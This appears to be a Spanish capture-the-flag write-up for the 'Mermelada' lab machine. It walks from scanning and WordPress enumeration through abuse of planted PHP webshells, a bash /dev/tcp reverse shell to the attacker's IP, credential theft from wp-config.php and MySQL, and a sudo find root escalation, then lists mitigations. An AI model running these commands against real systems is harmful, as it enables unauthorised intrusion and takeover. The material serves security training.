## Información General

| Campo             | Detalle             |
| ----------------- | ------------------- |
| Máquina           | Mermelada           |
| Plataforma        | TheHackersLabs      |
| Sistema Operativo | Linux (Debian)      |
| Dificultad        | Facil               |
| IP                | 192.168.241.163     |
| Servicios         | SSH (22), HTTP (80) |
| Fecha             | 27/08/2026          |

## Resumen del Ataque

La máquina expone un sitio web corporativo de una empresa de mermeladas y, en un subdirectorio, una instalación de WordPress. El listado de directorios abierto en `/uploads/` y en `/wordpress/wp-content/uploads/` permite localizar, respectivamente, una pista en base64 (que resulta ser un señuelo) y varias webshells PHP ya subidas al servidor, una de las cuales acepta comandos mediante el parámetro `cmd`. A partir de ahí se obtiene ejecución remota de comandos como `www-data`, se estabiliza una reverse shell y se extraen credenciales de base de datos desde `wp-config.php`. La contraseña de root de MySQL da acceso a una tabla `users` con credenciales en texto plano, que resultan válidas para el usuario del sistema `mermeladita`. Finalmente, una regla de `sudo` mal configurada sobre el binario `find` permite escalar a root mediante GTFOBins.

## Técnicas Usadas

- Escaneo de puertos y servicios (Nmap)
- Revisión de código fuente HTML en busca de pistas (usuarios, nombres)
- Fuzzing de directorios y archivos (dirsearch)
- Listado de directorios abierto (directory listing)
- Decodificación Base64 (pista señuelo)
- Enumeración de usuarios y versión de WordPress (WPScan)
- Explotación de webshell PHP preexistente vía parámetro GET (`cmd`)
- Reverse shell y estabilización de TTY
- Extracción de credenciales desde `wp-config.php`
- Acceso a base de datos MySQL/MariaDB con credenciales de configuración
- Reutilización de credenciales (texto plano en BBDD → usuario del sistema)
- Escalada de privilegios por mala configuración de `sudo` (find → GTFOBins)

## Desarrollo

### 1. Escaneo de puertos

Escaneo inicial rápido de todos los puertos:

```
sudo nmap -p- -sS --min-rate 5000 -n -vvv -Pn -oN ports 192.168.241.163
```



Escaneo de versiones sobre los puertos abiertos:

```
nmap -p- 22,80 -sC -sV -oN allports 192.168.241.163
```



### 2. Revisión del sitio web

Se accede a `http://192.168.241.163/` y se revisa el código fuente. La página es una web corporativa de mermeladas sin funcionalidad relevante a simple vista, salvo dos detalles que se guardan como posibles pistas:

- Un empleado mencionado en una noticia: **Manuel Martinez**.
- El pie de página: `© 2025 Mermelada · Fundada por Wvverez`.

Ninguno de los dos nombres se llega a explotar directamente durante la sesión; se descartan como pistas narrativas.



### 3. Fuzzing de directorios

```
dirsearch -u http://192.168.241.163/ --exclude-status 403,404,500 -e php,txt,html
```



Se localiza `/login.php`, pero no se identifica ninguna vulnerabilidad explotable en él durante la sesión (queda descartado como vía de entrada). Los hallazgos relevantes son `/uploads/` y `/wordpress/`.

### 4. Pista señuelo en /uploads/

El listado de directorio en `/uploads/` está abierto:

```
http://192.168.241.163/uploads/
```



```
http://192.168.241.163/uploads/compra.txt
```



Se decodifica la cadena en base64:

```
echo "dW4gcGlxdWl0bz8K" | base64 -d
```



El resultado ("un piquito?") no aporta ninguna credencial ni ruta útil: es un señuelo dentro de la lista de sabores, y se descarta como pista.

### 5. Enumeración de WordPress

Se lanza WPScan contra la instalación de WordPress:

```
wpscan --url http://192.168.241.163/wordpress/ -e u vp vt
```

Resultados relevantes:



Se confirma un usuario, `mermeladita`, y que el directorio de subidas tiene el listado de directorios habilitado.

### 6. Webshells expuestas por listado de directorios

Se navega al directorio de subidas de ese mes, que también tiene el listado abierto:

```
http://192.168.241.163/wordpress/wp-content/uploads/2026/01/
```



Los tres archivos son webshells PHP ya presentes en el servidor (no se documenta en esta sesión el vector original de subida; se localizan y explotan directamente vía el listado abierto). Todos devuelven una cabecera `GIF89a;`, indicando que están camufladas como imagen GIF.



### 7. Ejecución remota de comandos

Se prueba el parámetro `cmd` sobre una de las webshells:

```
http://192.168.241.163/wordpress/wp-content/uploads/2026/01/macoduweklgkmvp-1767607866.7342.php?cmd=id
```



Confirmada la RCE, se lanza una reverse shell:

```
http://192.168.241.163/wordpress/wp-content/uploads/2026/01/macoduweklgkmvp-1767607866.7342.php?cmd=bash -c 'exec bash -i %26>/dev/tcp/192.168.241.128/1234 <%261'
```

```
nc -lvnp 1234
```



Estabilización de la TTY:

```
script /dev/null -c bash
ctrl+Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 33 columns 144
```

### 8. Credenciales de la base de datos

```
www-data@debian:/var/www/html/wordpress/wp-content/uploads/2026/01$ cd /var/www/html/wordpress/
```

```
www-data@debian:/var/www/html/wordpress$ ls
```



Se revisa `wp-config.php`:

```
head -n 40 wp-config.php
```



### 9. Acceso a MySQL y credenciales en texto plano

```
www-data@debian:/var/www/html/wordpress$ mysql -D mermelada -u root -p
```

```
MariaDB [mermelada]> show tables;
```



Entre las tablas existe una tabla `users` (distinta de las tablas propias de WordPress), con credenciales en texto plano:

```
MariaDB [mermelada]> select * from users;
```



### 10. Movimiento lateral a mermeladita

Se reutilizan las credenciales encontradas en la base de datos para autenticarse como el usuario del sistema `mermeladita`:

```
www-data@debian:/var/www/html/wordpress$ su - mermeladita
```

```
mermeladita@debian:~$ whoami
```



### 11. Escalada de privilegios

```
mermeladita@debian:~$ sudo -l
```



Se abusa del binario `find` con privilegios de root (técnica documentada en GTFOBins) para obtener una shell como root:

```
mermeladita@debian:~$ sudo -u root /usr/bin/find . -exec /bin/bash \; -quit
```

```
root@debian:/home/mermeladita# whoami
```



### 12. Flags

```
root@debian:/home/mermeladita# cat user.txt
```



```
root@debian:/home/mermeladita# cd /root
root@debian:~# cat root.txt
```



## Lecciones Aprendidas

- El listado de directorios abierto (directory listing) en rutas de subida es, por sí solo, suficiente para exponer webshells ya plantadas y comprometer el servidor sin necesidad de explotar la vulnerabilidad original de subida.
- No toda pista visible en el sitio (base64, nombres de empleados, `/login.php`) forma parte de la ruta de explotación: hay que evitar invertir tiempo de más en señuelos y priorizar los hallazgos de directorios/servicios con contenido real.
- Reutilizar la misma contraseña (o contraseñas relacionadas) entre `wp-config.php`, la base de datos y cuentas del sistema operativo convierte una simple lectura de fichero de configuración en movimiento lateral completo.
- Una regla de `sudo` NOPASSWD sobre un binario tan potente como `find` es una escalada trivial vía GTFOBins.

## Medidas de Mitigación

- Deshabilitar el listado de directorios (`Options -Indexes` en Apache) en todo el árbol web, especialmente en `wp-content/uploads/`.
- Revisar periódicamente el directorio de subidas de WordPress en busca de archivos `.php` no legítimos y restringir la ejecución de PHP dentro de `wp-content/uploads/`.
- Actualizar WordPress y auditar plugins/temas para cerrar el vector real de subida de archivos.
- No usar contraseñas débiles ni reutilizarlas entre la base de datos, `wp-config.php` y cuentas del sistema; usar gestores de secretos.
- Eliminar tablas o datos con credenciales en texto plano; aplicar hashing si son necesarias.
- Restringir las reglas de `sudo` a los comandos mínimos imprescindibles, evitando binarios listados en GTFOBins con `NOPASSWD`.


